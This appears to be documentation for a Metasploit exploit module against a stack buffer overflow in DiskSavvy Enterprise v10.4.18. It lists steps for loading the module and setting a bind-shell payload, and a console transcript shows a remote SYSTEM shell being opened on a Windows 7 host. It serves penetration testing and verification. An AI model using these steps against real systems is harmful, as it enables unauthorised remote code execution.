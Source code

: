 ## Vulnerable Application

[DiskSavvy Enterprise](http://www.disksavvy.com/) version v10.4.18, affected by a stack-based buffer overflow vulnerability caused by improper bounds checking of the request sent to the built-in server which can be leveraged by an attacker to execute arbitrary code in the context of NT AUTHORITY\SYSTEM on the target.. This module has been tested successfully on Windows 7 SP1 x86. The vulnerable application is available for download at [DiskSavvy Enterprise](http://www.disksavvy.com/setups/disksavvyent_setup_v10.4.18.exe).

## Verification Steps
  1. Install a vulnerable DiskSavvy Enterprise
  2. Start `msfconsole`
  3. Do `use exploit/windows/misc/disk_savvy_adm`
  4. Do `set RHOST ip`
  5. Do `set PAYLOAD windows/shell/bind_tcp`
  6. Do `exploit`
  7. Enjoy your shell

## Scenarios

### DiskSavvy Enterprise v10.4.18 on Windows 7 SP1 x86

```
msf > use exploit/windows/misc/disk_savvy_adm 
msf exploit(windows/misc/disk_savvy_adm) > set RHOST 192.168.216.55
RHOST => 192.168.216.55
msf exploit(windows/misc/disk_savvy_adm) > set payload windows/shell/bind_tcp
payload => windows/shell/bind_tcp
msf exploit(windows/misc/disk_savvy_adm) > exploit 

[*] Started bind handler
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.216.55
[*] Command shell session 1 opened (192.168.216.5:36113 -> 192.168.216.55:4444) at 2018-02-14 15:19:02 -0500

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami      
whoami
nt authority\system

C:\Windows\system32>
```
